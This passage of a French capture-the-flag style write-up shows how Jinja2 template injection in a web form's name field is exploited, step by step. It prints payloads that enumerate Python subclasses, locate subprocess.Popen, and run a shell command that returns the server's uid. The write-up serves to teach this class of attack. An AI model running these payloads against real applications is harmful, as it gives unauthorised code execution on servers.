 Bingo !

```html
                        <ul>
                            <li>Name: 24</li>
                            <li>Surname: 32</li>
                            <li>Address: 40</li>
                            <li>Birthday: 48</li>
                            <li>Pet Breed: 56</li>
                            <li>Pet's Name: 64</li>
                        </ul>
```

Ensuite, dans les classes Python chargées en mémoire, il faut en trouver une intéressante. Je peux passer ce code :

{% raw %}
```python
{{ dict.__base__.__subclasses__() }}
```
{% endraw %}

En retour, j'obtiens une liste énorme (dont voici le début) :

```
Name: [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>...
```

Je remarque la présence de `subprocess.Popen` dans la liste. Reste à savoir en quelle position. J'ai copié/collé la chaine dans une variable Python :

```python
>>> for i, class_ in enumerate(data.split(",")):
...   if "Popen" in class_:
...     print(i)
... 
351
```

Avec cet index, je peux désormais appeler la fonction :

{% raw %}
```python
{{ dict.__base__.__subclasses__()[351]('id',shell=True,stdout=-1).communicate()[0].strip() }}
```
{% endraw %}

Victoire !

```
Name: b'uid=1006(harry_potter) gid=1006(harry_potter) groups=1006(harry_potter)'
```
